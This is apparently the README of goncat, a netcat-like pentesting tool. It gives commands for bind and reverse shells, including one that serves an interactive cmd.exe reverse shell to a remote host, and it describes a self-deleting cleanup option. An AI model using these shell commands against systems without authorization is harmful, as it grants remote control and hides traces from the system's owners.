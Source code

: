 # goncat

goncat is a netcat-like tool you can use to create bind or reverse shells.
It contains a few extra features that I missed from netcat.
First, goncat supports encryption with mutual authentication
so you don't have to write on one page of your pentest report that administrative access to servers without encryption or authentication is a problem
while writing on the next page how you did exactly that.
Second, it can create log files of your sessions so you can later see and show exactly what you did.
Third, it has cross-platform PTY support for your convenience.
Finally, it can clean up after itself so you don't leave your binaries behind when you are done.

## Install

You can run `go install github.com/local/goncat` to install goncat to the `bin` folder in your GOPATH, usually `~/go/bin`.
Alternatively, download the pre-built binary for your system and architecture.
Download are available in the [release section](TODO).

## Getting started

Akin to netcat, goncat allows to bind a socket or can be used to connect to one.
There is only one binary combining all features and it works cross-platform.
For example, you can do the following things:
- Raw data transfers: `goncat listen --port 12345` to listen on port 12345,
  then from somewhere else `goncat connect --host 11.22.33.44 --port 12345` to connect. 
  Whatever you type on one end of the connection will be sent to the other.
- Bind/reverse shells: `goncat listen --exec /bin/sh --port 12345` to expose a shell on port 12345,
  then on the other side `goncat connect --host 11.22.33.44 --port 12345`
- Shells with encryption, PTY support and logging: `goncat listen --port 12345 --ssl --key secret --pty --log /tmp/session.log` to start a listener on port 12345,
  which logs the session to a file.
  Then on the remote side run `goncat.exe connect --host 11.22.33.44 --port 12345 --exec cmd.exe --ssl --key secret --pty`
  to get a fully interactive reverse shell, encrypted and authenticated with your password `secret`.

## Features

goncat provides two commands.
With `goncat listen` you launch a server that listens on a `--port` and optionally on a specific IP
specified with `--host` (default is any).
`goncat connect` launches a client which connects to a `--host` and `--port`.
By default goncat attaches to your stdin and stdout but you can pass `--exec` on either side
to launch an executable and attach to that.
Think of all this as the same you would usually do with `nc`, `ncat` and the like.

In addition to these basic features, there is:
- Encryption: you can add `--ssl` on both ends to ensure all traffic is encrypted.
- Authentication: on top of `--ssl` you can add `--key mypassword` on both ends.
  This way they both generate RSA keys derived from the shared password used for mutual TLS authentication.
- Logging: use `--log` to make goncat log all traffic sent over the wire to a local log file.
  For example, you can use that to document everything you did through a reverse shell.
- PTY support: add `--pty` on both ends to enable pseudoterminal support.
  Only makes sense if you expose shells with `--exec`.
  I've tested this on Linux and Windows but expect that MacOS should work too.
  goncat handles all the details automatically, so there is no need for `stty raw -echo` or row and column size adjustments.
  It also restores your terminal when the connection terminates.
- Cleanup: you can pass `--cleanup` to make goncat delete itself on process termination.
  This works well on UNIX systems but Windows is tricky.
  Currently goncat launches a cmd-based cleanup job that runs 5 seconds after it terminated
  and marks the file for deletion on the next reboot just in case that job fails.

